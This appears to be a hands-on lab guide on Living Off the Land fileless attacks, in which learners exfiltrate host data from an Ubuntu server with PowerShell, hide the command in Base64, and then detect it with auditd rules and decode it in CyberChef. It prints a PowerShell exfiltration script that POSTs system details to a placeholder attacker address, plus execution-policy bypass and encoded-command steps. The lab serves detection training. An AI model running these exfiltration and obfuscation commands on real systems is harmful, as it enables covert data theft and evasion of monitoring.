

# Living Off the Land Fileless Malware Attacks

When a threat actor uses tools already installed on a system to complete their attack and blend in with legitimate administrative activities, they are using a technique known as Living Off the Land (LOTL). These attacks are challenging to detect because the tools used often have a legitimate administrative functions within the environment. Identifying LOTL activity can be difficult due to a lack of traditional indicators of compromise and many organizations rely on default logging configurations that do not distinguish between malicious and legitimate IT activity.

This lab incorporates recommendations provided in the joint publication <a href="https://www.cisa.gov/resources-tools/resources/identifying-and-mitigating-living-land-techniques" target="_blank">Identifying and Mitigating Living Off the Land Techniques</a>.

- This lab is expected to take one (1) hour

*Please consider filling out the lab feedback survey at the bottom of your screen. The survey is available to you at any time while conducting the lab.*

**Caution!** You must complete _all_ phases of the lab and complete the mini-challenge to receive your completion certificate. We encourage you to attempt mini-challenges on your own, but links to the solution guides are available in the Mini-Challenge section of the lab document if you need them.

## Learning Objectives
- Explain the concept of fileless malware and how attackers abuse PowerShell for stealthy execution.
- Encode and execute a malicious PowerShell command using Base64.
- Demonstrate data exfiltration using PowerShell over a network using HTTP.
- Simulate an adversary using Living Off the Land techniques to bypass traditional defenses.


## Learner Expectations
- Be comfortable with command line operations
- Have a basic familiarity with PowerShell


## FOCAL and NICE Framework Mappings

This lab maps with <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL)</a> area 5 (Incident Detection and Response).

**NICE Work Role**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">Defensive Cybersecurity</a>

**NICE Tasks**

- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1084</a>: Identify anomalous network activity
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1299</a>: Determine causes of network alerts
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1347</a>: Detect cybersecurity attacks and intrusions
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1348</a>: Distinguish between benign and potentially malicious cybersecurity attacks and intrusions
- <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">T1350</a>: Perform continuous monitoring of system activity

<!-- cut -->

## Scenario
In this lab you are presented with two (2) servers running Ubuntu. One is a base installation and the other has additional logging tools added. After constructing a basic fileless malware attack, you will examine the system logs generated. After adding enhanced logging you will see the additional details about the attack that are revealed.


## System Tools and Credentials

| system | OS type/link |  username | password |
|--------|---------|-----------|----------|
| Attack-Console | Kali | user | tartans|
| Base-Ubuntu | Ubuntu | user | tartans |
| Logging-Ubuntu | Ubuntu | user | tartans |
| Mini-Challenge | Ubuntu | user | tartans |

| &#9888; NOTE |
|---|
| You are given access to the remote systems in this lab. In real world scenarios threat actors gain access through a variety of means such as phishing, using weak or compromised credentials, and exploiting vulnerabilities. |


## Phase 1: Fileless Malware Attacks Using PowerShell
<details>
<summary>
<h3>Phase 1 Introduction</h3>
</summary>
<p>

A tool commonly exploited in Living Off the Land attacks is PowerShell, a powerful scripting language widely used for automation and system administration. Its deep integration with Windows, as well as its ability to integrate with Linux and macOS operating systems, has made it an attractive tool for attackers to use in LOTL attacks.

PowerShell can be used in fileless malware attacks; a type of malicious activity where the malware operates in memory making it harder to detect.

For Phase 1, you will perform a LOTL attack using PowerShell to exfiltrate data from a remote system to the `Attack-Console`

</p>
</details>

<details>
<summary>
<h3>Start an HTTP Listener</h3>
</summary>
<p>

Tools and techniques that allow threat actors to maintain communications with compromised devices are known as Command and Control Infrastructure. Sometimes shortened to C2 or C&C. The implementation of C2 systems can vary greatly, but at their core they provide communication channels for sending instructions, downloading payloads, or receiving exfiltrated data.

You will be using a basic HTTP Listener to act as your C2 system to receive the data you exfiltrate.

1. Open the `Attack-Console` and open FireFox using the shortcut on the Desktop.

2. (**Attack-Console**, **FireFox**) Navigate to `https://skills.hub/lab/files` or click on the **Hosted Files** from the Skills Hub landing page.

3. (**Attack-Console**, **FireFox**) Download the file `httpListener.py`.

| &#129513; WHAT'S THAT SCRIPT DOING? |
| --- |
| A summary of how the `httpListener.py` script works has been provided within the script. Use Visual Studio Code (VSCode) to open it and take a look at how it works. |

4. (**Attack-Console**) Open a Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.


5. (**Attack-Console**, **Terminal**) Navigate to the Downloads directory using the command `cd /home/user/Downloads`.


6. (**Attack-Console**, **Terminal**) Start the HTTP Listener using the command `python3 httpListener.py`. The HTTP Listener will remain active as long as the Terminal Window remains open.


| &#128736; HTTP Listener |
|---|
| The HTTP listener attaches (binds) itself to the IP address of the `Attack-Console` on port `8080`. It listens for HTTP requests to that IP address and port, for example `http://10.5.5.100:8080`, and displays in the Terminal any data it receives. |

7. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.


8. (**Attack-Console**, **Terminal**) Type "HTTP Listener" into the textbox and press Enter. This names the session "HTTP Listener" and will make it easier to locate later.


</p>
</details>

<details>
<summary>
<h3>Use PowerShell to Exfiltrate System Data</h3>
</summary>
<p>

1. From the `Attack-Console`, Open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.


2. (**Attack-Console**, **Terminal**) Determine the IPv4 address of `Attack-Console` by typing the command `hostname -I | awk '{print $1}'`. This IP address will be used as the target for exfiltrated data. After you have recorded the IPv4 address, you may close the Terminal Window.


3. (**Attack-Console**) Open Visual Studio Code by double-clicking on the Visual Studio Code shortcut on the Desktop.


4. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file. You will use this text file to prepare your commands before copying them to the Terminal Emulator.


5. (**Attack-Console**, **Visual Studio Code**) Copy the below PowerShell script into Visual Studio Code.

| &#9888; NOTE |
|---|
| When copying into the virtual machine console, extra spaces or tabs can be inserted. Make sure to remove these spaces so your script matches what you copied. |

```powershell
$info = @{
    'Hostname' = hostname;
    'User' = whoami;
    'IP' = (hostname -I);
} | ConvertTo-Json;

Invoke-WebRequest -Uri 'http://<YOUR_IP_HERE>:8080' `
    -Method Post `
    -Body $info `
    -ContentType 'application/json'
```

6. (**Attack-Console**, **Visual Studio Code**) In line 7 of the PowerShell script, replace the `<YOUR_IP_HERE>` section with the `Attack-Console`'s IP address you identified in Step 2.


In this script, the Linux commands `hostname`, `whoami` and `hostname -I` are run to retrieve system information from the host. The values are stored in the `$info` hashtable and then converted to a JSON string.

The `Invoke-WebRequest` Cmdlet is used to send an HTTP request to the destination.
- `-Uri 'http://5.5.5.124:8080'` - Specifies the destination server and port.
- `-Method Post` - Sends the data using the HTTP POST method.
- `-Body $info` - Sends the JSON-formatted data stored in the `$info` hashtable.
- `-ContentType 'application/json'` - Specifies that the data being sent is in JSON format.


7. (**Attack-Console**) Open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel.


8. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.


9. (**Attack-Console**, **Terminal**) Type "SSH Base-Ubuntu" into the textbox and press Enter.


10. (**Attack-Console**, **Terminal**) Use SSH to connect to the `Base-Ubuntu` server with the command `ssh user@base-ubuntu`. If asked if you want to continue connecting, type `yes` and press Enter.


11. (**Attack-Console**, **Terminal**) Enter the password `tartans` and press Enter to connect.

12. (**Attack-Console**, **SSH Connection**) Start PowerShell with the command `pwsh -NoProfile -ExecutionPolicy Bypass`.

- `-NoProfile` Ensures that PowerShell starts without loading any user-specific profile scripts to improve both speed and prevent unwanted scripts from interfering.
- `-ExecutionPolicy Bypass` Overrides the system's PowerShell script execution policy allowing the script to run regardless of restrictions. This is used to evade PowerShell security controls.


| &#129513; SO ANYONE CAN BYPASS AN EXECUTION POLICY? |
| --- |
| While `-ExecutionPolicy Bypass` allows a user to override the local execution policy to run a PowerShell script, administrators are able to block it using tools such as Group Policy Objects (GPO) or AppLocker. These blocks and restrictions are often not in place because PowerShell is a commonly used administrative tool and viewed as "safe". This false safety is exploited by threat actors using Living Off the Land techniques. Putting appropriate restrictions in place greatly limits a threat actor's ability to exploit native tools for malicious activity. |

13. (**Attack-Console**, **Visual Studio Code**) Copy the PowerShell script you crafted above in Step 6 from Visual Studio Code.

14. (**Attack-Console**, **SSH Connection**, **PowerShell Prompt**) Paste the PowerShell script into the PowerShell prompt. Press Enter to execute the commands.


*Leave this Terminal and SSH session open and remain within the PowerShell prompt. We will use it again in a later step.*

15. (**Attack-Console**, **Terminal**, **HTTP Listener**) Return to the Terminal Window titled "HTTP Listener". The data you just exfiltrated from `Base-Ubuntu` appears.


**Knowledge Check Question 1:** *What is the IPv4 address of base-ubuntu in the output of the http-listener.*

</p>
</details>

<details>
<summary>
<h3>Obfuscate Commands Using Base64</h3>
</summary>
<p>

You successfully exfiltrated basic system data using PowerShell! But the commands that were run seem suspicious, especially written in plain text. To cover their actions, threat actors will convert the commands to Base64 before executing them.

1. Return to Visual Studio Code.

2. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file. You will use this text file to prepare your commands before copying them to the Terminal Emulator.

3. (**Attack-Console**, **Visual Studio Code**) Copy the below PowerShell script into Visual Studio Code.

```powershell
$command = @"
`$info = @{
    'Hostname' = hostname;
    'User' = whoami;
    'IP' = (hostname -I);
} | ConvertTo-Json;
Invoke-WebRequest -Uri 'http://<YOUR_IP_HERE>:8080' -Method Post -Body `$info -ContentType 'application/json'
"@
```

| &#9888; NOTE |
|---|
| When copying into the virtual machine console, extra spaces or tabs can be inserted. Make sure to remove these spaces so your script matches what you copied. |

4. (**Attack-Console**, **Visual Studio Code**) In line 7 of the PowerShell script, replace the `<YOUR_IP_HERE>` section with the `Attack-Console`'s IP address you identified previously.


5. From the `Attack-Console`, open a new Terminal by double-clicking on the Terminal Emulator Desktop shortcut or by clicking on Terminal Emulator in the Panel. We won't title this Terminal since it will only be used temporarily to create the encoded command.


6. (**Attack-Console**, **Terminal**)  Start PowerShell with the command `pwsh`.


7. (**Attack-Console**, **PowerShell Prompt**) Copy the PowerShell script you crafted above in Step 4 from Visual Studio Code.

8. (**Attack-Console**, **SSH Connection**, **PowerShell Prompt**) Paste the PowerShell script into the PowerShell prompt. Press Enter to execute the commands.

| &#128270; INFORMATION |
|---|
| The commands being run are the same ones you executed on the remote system, but here we are storing the data in a hash table variable named `$command`. This variable will be used to convert the commands to Base64 in the following steps |


9. (**Attack-Console**, **PowerShell Prompt**) Convert the contents of `$command` to a byte array using Unicode (UTF-16LE) by entering the following command into the PowerShell Prompt.

```powershell
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
```


10. (**Attack-Console**, **PowerShell Prompt**) Take the contents of `$bytes` and convert to a Base64 string by entering the following command into the PowerShell Prompt.

```powershell
$encodedCommand = [Convert]::ToBase64String($bytes)
```


11. (**Attack-Console**, **PowerShell Prompt**) Print the Base64 encoded string stored in `$encodedCommand` to the Terminal by entering the following command into the PowerShell Prompt.

```powershell
Write-Output $encodedCommand
```


12. (**Attack-Console**) Return to Visual Studio Code.

13. (**Attack-Console**, **Visual Studio Code**) In the Menu bar, click on **File** > **New Text File** to open a blank text file.

14. (**Attack-Console**, **Visual Studio Code**) Copy the Base64 encoded command from the PowerShell Prompt to the text file.

| &#128204; You will use this output several times in the lab, so make sure to keep it handy! |
|---|

15. (**Attack-Console**, **Terminal**) After you have copied the Base64 encoded command, close the Terminal Window.

16. (**Attack-Console**) Return to the Terminal Window titled "SSH Base-Ubuntu".

17. (**Attack-Console**, **SSH Session**) Execute the encoded command by entering the following command, making sure to replace <BASE64> with the Base64 Command you created above in Step 6.

```bash
pwsh -EncodedCommand <BASE64>
```



18. (**Attack-Console**, **Terminal**, **HTTP Listener**) Return to the Terminal Window titled "HTTP Listener". The data exfiltrated from `Base-Ubuntu` appears.


| &#129513; KEY POINT |
|---|
| The exfiltrated data is the same because it used the same commands; the only difference was they were obfuscated.|

**Knowledge Check Question 2:** *Which type of encoding did you use to obfuscate the PowerShell script - XOR, ROT13, or Base64?*

</p>
</details>

<details>
<summary>
<h3>Reviewing Log Files</h3>
</summary>
<p>

The system `Base-Ubuntu` is using the default logging enabled when Ubuntu Server is freshly installed. Review the logs to see what traces of your data exfiltration are present.


1. (**Attack-Console**) Return to the Terminal Window titled "SSH Base-Ubuntu".

2. (**Attack-Console**, **SSH Session**) Use `grep` to search the syslog log file for the word "powershell" with the command: `sudo cat /var/log/syslog | grep powershell`.

3. (**Attack-Console**, **SSH Session**) If prompted, enter the `sudo` password `tartans` and press Enter.

4. (**Attack-Console**, **SSH Session**) Reviewing the syslog log file, note there are logs that PowerShell was starting, and it was ready for user input, but there is no record of the commands that were run. The logs also do not indicate which user started PowerShell.


| &#129513; Understanding Default Logging in Syslog |
| --- |
| Reviewing syslog in its default state you notice that it provides only basic system-level information recording events such as service starts/stops, authentication attempts, and kernel messages. This is because syslog is designed for general system logging rather than in-depth security auditing. This level of logging is often insufficient for detecting and identifying threats.<br><br>Later in this lab you will enable additional logging that provides more detailed visibility into system activity. By comparing what is (and isn’t) logged in the default state to the logs you’ll generate later, you’ll gain a better understanding of why proper logging configuration is essential for detecting fileless malware and other advanced threats. |

6. (**Attack-Console**, **SSH Session**) Locate the Phase 1 token with the command `sudo cat /var/log/syslog | grep lab_completion`. Enter this token to advance to Phase 2 of the lab!


7. (**Attack-Console**, **SSH Session**) Close the "SSH Base-Ubuntu" Terminal window.


</p>
</details>

</p>
</details>

## Phase 2: Logging To Help Identify Living Off the Land Attacks
<details>
<summary>
<h3>Phase 2 Introduction</h3>
</summary>
<p>

Audit Daemon (`auditd`) is an auditing framework for Linux that helps system administrators and security professionals track and log system events. It provides detailed insight into system activities, including file access, command execution, user logins, and security policy modifications. By configuring audit rules, administrators can monitor specific files, processes, and system calls, ensuring compliance with security policies and detecting potential threats.
</p>
</details>

<details>
<summary>
<h3>Adding Rules to Auditd</h3>
</summary>
<p>


1. From the `Attack-Console`, open a new Terminal window.

2. (**Attack-Console**, **Terminal**) In the Terminal menu, click on **Terminal** > **Set Title**.

3. (**Attack-Console**, **Terminal**) Type "SSH Logging-Ubuntu" into the textbox and press Enter.

4. (**Attack-Console**, **Terminal**) Use SSH to connect to the `Logging-Ubuntu` server with the command `ssh user@logging-ubuntu`. If asked if you want to continue connecting, type `yes` and press Enter.


5. (**Attack-Console**, **Terminal**) Enter the password `tartans` and press Enter to connect.

6. (**Attack-Console**, **SSH Session**) Create a new rules file called `powershell.rules` with the command `sudo nano /etc/audit/rules.d/powershell.rules`. If prompted, enter the `sudo` password `tartans` and press Enter.


| &#128270; INFORMATION |
|---|
| Component audit rules (here `powershell.rules`) are placed in the audit rules directory (`/etc/audit/rules.d`). For ease of management, multiple rule files can be created and named according to the specific system event(s) being monitored or logged. |

7. (**Attack-Console**, **SSH Session**, **Nano Editor**) Create a rule to audit the execution of the PowerShell binary by entering the following rule.

```rules
-a always,exit -F arch=b64 -S execve -F path=/opt/microsoft/powershell/7/pwsh -F key=powershell_exec
```

This rule will audit the execution of the PowerShell binary by tracking the `execve` system call. Breaking it down further:
- `-a always,exit` - Log every exit of the specified system call (`execve`)
- `-F arch=b64` - Specifies the CPU architecture as 64-bit
- `-F path=/opt/microsoft/powershell/7/pwsh` - Filters to include events involving the PowerShell binary
- `-k powershell_exec` - Assigns a key to the log entry so the audit logs can be easily searched


8. (**Attack-Console**, **SSH Session**, **Nano Editor**) Write out (save) your changes in Nano by pressing Ctrl+o.

9. (**Attack-Console**, **SSH Session**, **Nano Editor**) Confirm the filename by pressing Enter.

10. (**Attack-Console**, **SSH Session**, **Nano Editor**) Exit Nano by pressing Ctrl+x.

11. (**Attack-Console**, **SSH Session**) Add the `powershell.rules` to the main rules file with the command `sudo augenrules --load`.

| &#128270; INFORMATION |
|---|
| `augenrules` is a script that processes and merges all component audit rules in the `rules.d` directory into the main `audit.rules` file. It processes the rules in order and removes any empty or commented lines. |

12. (**Attack-Console**, **SSH Session**) Verify the rules were successfully added to the main rules file with the command `sudo auditctl -l`.


**Knowledge Check Question 1:** *What is the full path of the PowerShell binary on the logging-ubuntu system?*

</p>
</details>


<details>
<summary>
<h3>Reattempt of Obfuscated Commands Using Base64</h3>
</summary>
<p>

| &#128204; If not already running, please start the HTTP Listener following the steps in Phase 1. |
|---|

1. (**Attack-Console**, **SSH Session**) Execute the encoded command you created in Phase 1 by entering the following command, making sure to replace <BASE64> with the Base64 Command you previously created.

```bash
pwsh -EncodedCommand <BASE64>
```


2. (**Attack-Console**, **SSH Session**) Search the audit logs for the key `powershell_exec` with the command.

```bash
sudo ausearch -k powershell_exec
```


3. (**Attack-Console**, **SSH Session**) Compared to the syslog entry you examined at the end of Phase 1, the auditd log contains much more detail, including the command that was run (lines 19 through 25) and the user ID (uid) of the user who executed it (line 29).

```text
01 | time->XXXX XXX  X XX:XX:XX 20XX
02 | type=PROCTITLE msg=audit(1738858549.467:322):
03 | proctitle=70777368002D456E636F646564436F6D6D616E64004A414270414734415A674276414341415051
04 | 4167414541416577414B4143414149414167414341414A774249414738416377423041473441595142744147
05 | 55414A774167414430414941426F41473841637742304147344159514274414755414F77414B414341414941
06 | 41
07 |
08 | type=PATH msg=audit(1738858549.467:322): item=1 name="/lib64/ld-linux-x86-64.so.2"
09 | inode=395840 dev=fc:00 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0
10 | cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
11 |
12 | type=PATH msg=audit(1738858549.467:322): item=0 name="/usr/bin/pwsh" inode=395563
13 | dev=fc:00 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0
14 | cap_fe=0 cap_fver=0 cap_frootid=0
15 |
16 | type=CWD msg=audit(1738858549.467:322): cwd="/home/user"
17 |
18 | type=EXECVE msg=audit(1738858549.467:322): argc=3 a0="pwsh" a1="-EncodedCommand"
19 | a2="JABpAG4AZgBvACAAPQAgAEAAewAKACAAIAAgACAAJwBIAG8AcwB0AG4AYQBtAGUAJwAgAD0AIABoAG8AcwB0
20 | AG4AYQBtAGUAOwAKACAAIAAgACAAJwBVAHMAZQByACcAIAA9ACAAdwBoAG8AYQBtAGkAOwAKACAAIAAgACAAJwBJ
21 | AFAAJwAgAD0AIAAoAGgAbwBzAHQAbgBhAG0AZQAgAC0ASQApADsACgB9ACAAfAAgAEMAbwBuAHYAZQByAHQAVABv
22 | AC0ASgBzAG8AbgA7AAoASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0
23 | AHQAcAA6AC8ALwAxADAALgA1AC4ANQAuADEAMgA0ADoAOAAwADgAMAAnACAALQBNAGUAdABoAG8AZAAgAFAAbwBz
24 | AHQAIAAtAEIAbwBkAHkAIAAkAGkAbgBmAG8AIAAtAEMAbwBuAHQAZQBuAHQAVAB5AHAAZQAgACcAYQBwAHAAbABp
25 | AGMAYQB0AGkAbwBuAC8AagBzAG8AbgAnAA=="
26 |
27 | type=SYSCALL msg=audit(1738858549.467:322): arch=c000003e syscall=59 success=yes exit=0
28 | a0=55b3d0982ed0 a1=55b3d0862ce0 a2=55b3d0977b00 a3=55b3d0926cf0 items=2 ppid=1613
29 | pid=1819 auid=1000 uid=1000 gid=1000 euid=1000 suid=1000 fsuid=1000 egid=1000 sgid=1000
30 | fsgid=1000 tty=pts0 ses=1 comm="pwsh" exe="/opt/microsoft/powershell/7/pwsh"
31 | subj=unconfined key="powershell_exec"
```

4. (**Attack-Console**, **SSH Session**) The username of the person who executed the command can be found by searching the `/etc/passwd` file for the UID with the command `cat /etc/passwd | grep 1000`.


Since you ran the command, the UID traces back to the `user` user. When investigating suspicious PowerShell commands being run, being able to identify the user account is helpful to narrow your investigation.


| &#128270; WHAT IS `/etc/passwd` |
| --- |
| The `/etc/passwd` file is a system file that stores information about user accounts. This file is readable by all users but only writable by the root user. Each line represents a single user and contains several fields separated by colons (`:`). These fields include:<br><br>- **Username** – The login name of the user.<br>- **Password Placeholder** – Historically, this contained the actual password hash, but now it typically contains an x, indicating the password is stored securely in `/etc/shadow`.<br>- **User ID (UID)** – A unique numerical identifier for the user. The root user always has UID 0.<br>- **Group ID (GID)** – The primary group associated with the user.<br>- **User Info (GECOS field)** – An optional field that can contain a user’s full name or other information.<br>- **Home Directory** – The path to the user’s home folder.<br>- **Login Shell** – The default shell that runs when the user logs in (e.g., `/bin/bash`). |


**Knowledge Check Question 2:** *What system file contains information about a user's account?*

5. (**Attack-Console**, **SSH Session**) Locate the Phase 2 token with the command `sudo cat /var/log/syslog | grep lab_completion`. Enter this token to advance to the Mini-Challenge of the lab!

| &#129513; A Word on Logging: |
| --- |
| The configuration used in this lab doesn't even begin to scratch the surface of the types of logging that can be enabled using `auditd`. While the initial impulse may be to enable everything, keep in mind the impact this will have. A high volume of logs can create a large amount of noise making it easier to miss outliers and leading to alert fatigue. Having an understanding of your environment baseline and tuning your logging appropriately will help reduce noise and improve your detection accuracy. |
</p>
</details>

<details>
<summary>
<h3>Decoding The Command</h3>
</summary>
<p>

In the lab environment you know the commands executed by the Base64 encoded command. But what if you encountered this during an investigation? Fortunately just as you were able to encode the commands, you can decode them to see what was run. To do this we will use CyberChef, a web application that can be used for encryption, encoding, compression, and data analysis.

1. (**Attack-Console**) Open FireFox.

2. (**Attack-Console**, **FireFox**) Click on CyberChef from the Bookmarks Toolbar.

3. (**Attack-Console**, **FireFox**, **CyberChef**) In the upper-right "Input" box, paste the encoded command from the log file.


4. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane (on the left), drag "From Base64" to the Recipe box.


5. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane's search field, search for "null".

6. (**Attack-Console**, **FireFox**, **CyberChef**) In the Operations pane, drag "Remove null bytes" to the recipe box.


7. (**Attack-Console**, **FireFox**, **CyberChef**) With the Recipe built, examine the "Output" box. This is the decoded command. Compare it to the commands you used earlier and note that they match!


</p>
</details>

</p>
</details>

## Mini-Challenge

<details>
<summary>
<h3>Click Here to Access the Mini-Challenge</h3>
</summary>
<p>

A new server (`mini-challenge`) has been added to the environment. Syslog shows PowerShell is being launched, but it is not known *who* is running the commands or *what* commands are being run.

*A solution guide link is available following the grading section, should you need it.*

### Mini-Challenge Objectives
- Configure enhanced logging on `mini-challenge` to identify who is running the PowerShell Commands
- Identify what PowerShell command is being run
- Decode the PowerShell command and locate the Secret Token

Note that you may need to wait a few minutes before the Powershell attempts appear in the logs *after* you configure enhanced logging.

### Grading Check

- Based on the User ID (UID), what is the **username** of the account that is running the PowerShell commands?

- What was the Secret Token being sent by the threat actor?


`Copy any token or flag strings to the corresponding question submission field to receive credit.`

*Please attempt the mini-challenge as best you can, but if you get stuck you can use the solution guide found <a href="https://github.com/cisagov/prescup-challenges/tree/main/skilling-continuation-labs/living-off-the-land-attacks/solution/README.md" target="_blank">here</a> for assistance.*
</p>
</details>

<details>
<summary>
<h2>Lab Wrap Up</h2>
</summary>
<p>

### Conclusion

By completing this lab you have become more familiar with attacks that use native tools to avoid detection.

To recap:
- You exfiltrated data using PowerShell Commands.
- You obfuscated your commands using Base64.
- You created `auditd` rules to detect and capture PowerShell commands.
- You decoded a Base64 PowerShell command.

Skills exercised:
- S0838: Skill in identifying anomalous activities
- S0839: Skill in identifying exploited system weaknesses
- S0840: Skill in identifying misuse activities
- S0846: Skill in monitoring system activity

Enabling additional logging to detect abuse of PowerShell increases the likelihood of early detection and response to Living Off the Land style attacks.

### References

 - <a href="https://www.cisa.gov/resources-tools/resources/identifying-and-mitigating-living-land-techniques" target="_blank">Identifying and Mitigating Living Off the Land Techniques</a>
 - <a href="https://www.cisa.gov/resources-tools/resources/federal-civilian-executive-branch-fceb-operational-cybersecurity-alignment-focal-plan" target="_blank">Federal Civilian Executive Branch (FCEB) Operational Cybersecurity Alignment (FOCAL) Plan</a>
 - <a href="https://niccs.cisa.gov/workforce-development/nice-framework" target="_blank">NICE Framework</a>
